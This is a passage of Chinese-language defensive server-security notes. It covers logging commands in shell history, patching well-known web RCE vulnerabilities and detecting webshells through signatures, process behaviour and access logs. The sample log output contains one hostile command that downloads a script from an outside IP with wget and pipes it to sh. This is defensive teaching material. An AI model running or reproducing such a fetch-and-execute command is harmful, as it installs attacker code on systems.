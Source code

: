 **[3]让配置生效：**

```
source /etc/profile
```

生成效果：

```
762019-10-2817:05:34113.110.229.230 wget -q -T180 -O-http://103.219.112.66:8000/i.sh) | sh
```

#### 打上常见Web漏洞补丁

> structs2系列RCE漏洞
>
> thinkphp5.XRCE漏洞
>
> Redis未授权访问漏洞
>
> ConfluenceRCE漏洞（CVE_2019_3396）
>
> DrupalRCE漏洞（CVE-2018-7600）
>
> ThinkPHPRCE漏洞（CVE-2019-9082）

##  **Webshell**  

 一种恶意脚本，其目的是获得服务器的执行操作权限 

### 检测方式

**静态检测**
匹配文件特征码、特征值、危险函数eval等来查找webshell
依据特征码弱强特征，结合人工判断，可减少漏报误报概率
利用文件系统的属性判断，无缘无故多出的nobody属性文件必定有问题(Apache是nobody启动)

弱点: 漏报误报率较高，无法查杀变种及0day型
**动态监测**
依据webshell文件执行表现的特征即动态特征，如菜刀操作的特征

webshell命令执行时必会创建bash或IIS User启动cmd 由PID进程号定位webshell

http异常模型检测，检测若有有用户访问一个从未访问过的文件并得到200响应，很容易定位webshell

修改内核，hook一些危险函数eval、asset，重新编译php;

弱点:降低php性能及业务性能

**日志检测**
webshell访问特征

- 少量ip发起fangwen
- 总访问次数少
- 该页面属于孤立页面

#### 查杀工具
